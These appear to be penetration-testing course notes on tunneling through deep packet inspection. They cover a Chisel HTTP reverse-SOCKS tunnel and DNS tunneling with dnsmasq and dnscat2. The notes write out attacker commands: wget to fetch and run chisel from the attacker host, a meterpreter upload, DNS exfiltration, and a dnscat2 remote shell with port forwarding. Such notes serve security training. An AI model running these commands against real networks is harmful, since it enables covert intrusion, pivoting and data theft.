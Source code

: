 ```yaml
---
layout: blank
pagetitle: Tunneling through Deep Packet Inspection
---
```


### HTTP Tunneling Theory/Practice

**HTTP Tunneling Fundamentals**
- Useful when all you have is egress HTTP traffic and no useful inbound ports
- We basically set up a server on kali and use egress traffic from the pwned machine to create an HTTP tunnel allowing inbound commands
- *Chisel* is a good tool for encapsulating data within HTTP
	- Run a server on Kali, client on pwned machine with internal access
		- On Kali: `sudo apt install chisel`, then copy `/usr/bin/chisel` into `/var/www/html` and start apache to make the file available (or just use python???)
		- Can view all traffic to this port with `sudo tcpdump -nvvvXi tun0 tcp port {port}`
	- `chisel server --port {port} --reverse` on kali to run the server
	- `wget {kali_ip}/chisel -O /tmp/chisel && chmod +x /tmp/chisel` for running the Chisel client on the linux target
		- `chisel client {kali_IP}:{kali_port} R:socks > /dev/null 2>&1 &`
	- Then, pass commands with `ssh -o Proxycommand='ncat --proxy-type socks5 --proxy 127.0.0.1:{port_given_by_chisel_(1080)} %h %p' {user}@{internal_IP_1hop}`
		- Need to install `ncat` on kali first
	- Can also be used on Windows
		- From meterpreter, `upload chisel.exe C:\\Users\\{user}\\chisel.exe`
- Can be combined with proxychains
	- Put the socks5 proxy port (from Chisel) in proxychains

### DNS Tunneling Theory/Practice

**DNS Tunneling Fundamentals**
- Register a name server that can communicate with all other nameservers
- Run `sudo dnsmasq -C dnsmasq.conf -d` on the pwned machine that other pwned machines refer to for dns info
	-  `dnsmasq.conf` needs to have `no-resolv`, `no-hosts`, `auth-zone=feline.corp`, and `auth-server=feline.corp` all on newlines
	- -C uses a config file, and -d means no-daemon mode so we can kill it
- On pwned machine, check DNS resolution with `resolvectl status`
	- Can then run something like `nslookup -type=txt www.feline.corp`, as the 2nd pwned machine will look to the 1st for name records and return exfiltrated data
- To view exfiltrated data on DNS server:
	- `sudo tcpdump -i {network interface (like ens192)} udp port 53`
	- `nslookup garbage.{owned_domain}` on pwned machine to test
- Since everything needs to look up domains, it doesn't matter how deep the pwned machine is in the internal network
- Getting data back into the network:
	- Add TXT records to `dnsmasq.conf` with:
		- `txt-record=www.{domain}, {arbitrary data here}`
		- Then restart the server (`sudo dnsmasq.conf -C dnsmasq.conf -d`)

**DNS Tunneling with dnscat2**
- `dnscat2` runs on an authoritative name server for a domain on a pwned nameserver, queried by pwned machines
- `dnscat2-server {domain}` to run, making it listen on all interfaces on udp port 53
	- Similar to above, the domain needs to be specified in `~/dns_tunneling/dnsmasq.conf`
- Then, on client, simply run `dnscat {domain}` to get a shell
- Tunneling:
	- Run `window -i 1` to be able to run commands in the window
	- Once we have a shell, we can use the `listen` command to do a local port forward
	- `listen 127.0.0.1:{inbound_port} {internal_IP}:{desired_port}` 
		- This listens on `inbound_port` on the loopback interface (e.g. only localhost)
		- If we want to listen everywhere, just use `0.0.0.0`
	- Then, use it by simply accessing the inbound port on kali localhost
		- Example: `nmap -p {inbound_port} localhost`